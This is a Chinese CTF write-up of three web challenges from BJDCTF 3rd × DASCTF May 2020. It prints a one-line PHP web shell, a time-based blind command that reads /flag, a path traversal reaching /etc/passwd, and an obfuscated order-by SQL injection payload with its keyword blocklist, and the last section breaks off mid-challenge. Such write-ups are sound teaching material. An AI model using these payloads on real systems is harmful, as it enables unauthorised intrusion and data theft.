 ```yaml
---
layout: post
title: BJDCTF 3rd × DASCTF May Web Writeup
data: 2020-05-22
categories: Writeups
tags: 
 - CTF
 - Writeup
description:  
excerpt_separator: ""
---
```


# 帮帮小红花

## 题目描述

上来是个黑页，给了木马的内容：

```php
<?
php shell_exec($_GET["imagin"]);?
>
```

## 解题思路

木马没有回显，试着ping一下DNSlog，没反应，然后试了curl也不行，把回显打出去应该是没什么希望了。

不过其实题目没有对关键字做什么过滤，所以我们可以用时间盲注的思路来获得命令结果。

而且题目给了flag的位置，可以命令行执行这样的PHP代码：

```bash
php -r '$flag=file_get_contents("/flag");if (ord($flag[0])==66) {sleep(1);}'
```

来获得flag。

## 备注

1. 可能时间盲注的经验还是不太多，而且这道题网络不是很稳定，脚本写得很吃力。

---

# gob

## 题目描述

刚打开是个登录界面，随便输入一个账号密码登录，进入之后有两个功能，show和upload。

## 解题思路

先上传一张图片试试，成功后有回显：

```
{admin hhhh ./uploads/3e104cae6401d2576676b2c68973154d/foo.jpeg ed1fb76fd040aa32984affdbbcf255f2}上传成功！您的路径是foo.jpeg
```

然后在show功能下可以看到上传的图片。在后面的测试中发现文件上传没有任何过滤，不过即使上传了PHP文件也没什么用，它会被当作TXT直接返回。

然后发现了show的图片显示利用了data协议，所以考虑利用它读文件。

而且当上传的文件名已存在时，会有回显提示，但不会修改文件内容。同时接下来使用show功能时，显示的图片是刚刚所上传的文件名所指向的文件。

可以试着目录穿越，先在文件上传时抓包修改上传文件的文件名：

```
../../index.php
```

没成功，不死心，又试了一次/etc/passwd，居然成功了。

再试着读一下/flag，得到flag。

## 备注

1. 不太明白，难道说业务逻辑文件和用户上传文件不在同一个服务器？

---

# Multiplayer Sports

## 题目描述

题目是这样子的：

![1](https://glyuan419.github.io/uploads/posts/2020-05-22-BJDCTF-3rd-Web/Multiplayer_Sports01.png)

## 解题思路

看页面源码发现又SQL注入，位置是order by：

```
?by=desc
```

会改变右边表格的顺序。接下来就是寻找利用方式，拦截了很多字符：

```
<|>|=|"|'|and|info|substr|where .etc
```

可以利用位异或符号：

```
select * from user order by id ^ 0
```

修改最后一位为0或1会有不同的回显。

"="可以用case语句绕过，substr可以用replace()+length()函数绕过，列名的问题也比较容易绕过。至于表名，其实是猜的，也比较常见，是"user"。Payload如下：

```
?by=^(case(replace(length(replace((select group_concat(`3`) from (select 1, 2, 3 union select * from user)a), 0x332c, 0x00)), 15, 200))when(200)then(1)else(0)end) limit 1,1;
```

0x332c对应的是"3,"，也就是"3,\<password>"的开头，另外首先要以类似的方法获得password的长度。

脚本跑出来密码是："T1Me cTRol13r"。

用admin登录后多了两个功能，getFlag和Request。点击getFlag。他让我爬，爬爬爬。再看看Request：

![2](https://glyuan419.github.io/uploads/posts/2020-05-22-BJDCTF-3rd-Web/Multiplayer_Sports02.png)

url输入www.baidu.com，有报错：

![3](https://glyuan419.github.io/uploads/posts/2020-05-22-BJDCTF-3rd-Web/Multiplayer_Sports03.png)

golong？